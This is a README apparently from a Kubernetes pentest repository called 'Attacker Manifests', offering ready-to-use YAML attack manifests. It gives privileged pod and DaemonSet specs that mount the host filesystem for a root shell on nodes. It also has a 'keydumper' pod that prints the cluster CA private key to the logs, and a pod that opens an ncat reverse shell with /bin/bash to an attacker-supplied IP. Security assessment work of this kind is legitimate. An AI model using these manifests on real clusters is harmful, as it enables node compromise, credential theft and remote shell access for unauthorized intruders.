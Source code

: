 # Attacker Manifests

These are Kubernetes manifests that could be useful on security assessments, or pentests. 

N.B. for pentesters, make sure you have delete rights to the objects you create and make sure to clean up when you're done!

## General form

* `kubectl create -f [MANIFEST.YAML]` creates object contained in a file called [MANIFEST.YAML]
* `kubectl delete -f [MANIFEST.YAML]` deletes object contained in a file called [MANIFEST.YAML]

if you want to create the objects in a specific namespace that isn't your current active one add the following to your manifest under metadata

```yaml
  namespace: [NAMESPACENAME]
```

## Root Pod

This manifest will create a privileged pod on a node in the cluster. Once it's running `kubectl exec -it noderootpod chroot /host` should give you a root shell on the node.

This won't work if :-

1. You don't have right to create pods in the namespace. You'll also need rights to pod/exec in order to get the shell in the pod afterwards.
2. The node can't pull images from Docker Hub
3. There's PodSecurityPolicies (or equivalent) blocking the creation of privileged pods

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: noderootpod
  labels:
spec:
  tolerations:
  - key: node-role.kubernetes.io/master
    effect: NoSchedule
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: noderootpod
    image: busybox
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  volumes:
  - name: noderoot
    hostPath:
      path: /
```

## Root daemonset

This manifest does the same thing as the pod one, except it creates a pod on every cluster node (including control plane nodes in un-managed clusters). Once it's running, get a list of pods in the daemonset with `kubectl get daemonset noderootdaemon` then use kubectl exec (as above) to execute the `chroot /host` command in one of the pods

This won't work if :-

1. You don't have right to create daemonsets in the namespace. You'll also need rights to pod/exec to get the shell afterwards.
2. The node can't pull images from Docker Hub
3. There's PodSecurityPolicies (or equivalent) blocking the creation of privileged pods by the replicaset controller in that namespace.


```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: noderootdaemon
  labels:
spec:
  selector:
    matchLabels:
      name: noderootdaemon
  template:
    metadata:
      labels:
        name: noderootdaemon
    spec:
      tolerations:
      - key: node-role.kubernetes.io/master
        effect: NoSchedule
      hostNetwork: true
      hostPID: true
      hostIPC: true
      containers:
      - name: noderootpod
        image: busybox
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: noderoot
        command: [ "/bin/sh", "-c", "--" ]
        args: [ "while true; do sleep 30; done;" ]
      volumes:
      - name: noderoot
        hostPath:
          path: /
```

## Sensitive file logger

In a scenario where you have create pods and access to pod logs (a right commonly given for diagnostics) but don't have pod/exec, it can still be possible to use your rights to escalate access to a cluster, by creating a pod which cat's a file to STDOUT (as this will be logged in the container logs)

The manifest below is an example of this. It would work on a kubeadm cluster, when deployed to a master node. To adapt to other scenarios, just change the volume mount and file in the `command` parameter

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: keydumper-pod
  labels:
    app: keydumper
spec:
  containers:
  - name: keydumper-pod
    image: busybox
    volumeMounts:
    - mountPath: /pki
      name: keyvolume
    command: ['cat', '/pki/ca.key']
  volumes:
  - name: keyvolume
    hostPath:
      path: /etc/kubernetes/pki
      type: Directory
```

## Reverse Shell

For setups where you only have create pod, but don't have access to pod/exec or pod logs, it's often possible to setup a reverse shell. First setup an ncat listener with something like

```bash
ncat -l -p 8989
```

Then use the manifest below. Replace `[IP]` with the IP address of the host with the ncat listener.  

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: ncat-reverse-shell-pod
spec:
  containers:
  - name: ncat-reverse-shell
    image: raesene/ncat
    volumeMounts:
    - mountPath: /host
      name: hostvolume
    args: ['[IP]', '8989', '-e', '/bin/bash']
  volumes:
  - name: hostvolume
    hostPath:
      path: /
      type: Directory
```
